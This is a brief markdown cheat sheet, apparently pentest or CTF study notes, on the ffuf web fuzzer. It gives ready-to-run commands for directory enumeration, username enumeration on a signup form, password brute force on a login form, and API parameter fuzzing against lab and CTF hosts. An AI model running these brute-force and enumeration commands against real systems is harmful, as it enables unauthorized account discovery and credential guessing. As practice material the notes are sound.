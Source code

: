[![Build Status](https://travis-ci.org/joemccann/dillinger.svg?branch=master)](https://travis-ci.org/joemccann/dillinger)

# ffuf
<hr/>

## Enumerate URLs with Ffuf
```sh
ffuf -u http://localhost:3000/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt
```

## username enumeration
http://10.10.13.16/customers/signup

```sh
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.13.16/customers/signup -mr "username already exists"
```

## brute force
http://10.10.13.16/customers/login

```sh
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.13.16/customers/login -fc 200
```


### Find api Parameter

find whent it always return 200 
```sh
ffuf -u https://3c16143e884e5b3fe326d43bcad3d616.ctf.hacker101.com/api/v1/status?FUZZ=1 -w ~/wordlist/fuzz-lfi-params-list.txt -fs 1-20 -s
```

-fs 1-20, filter by size  
-s scilent mode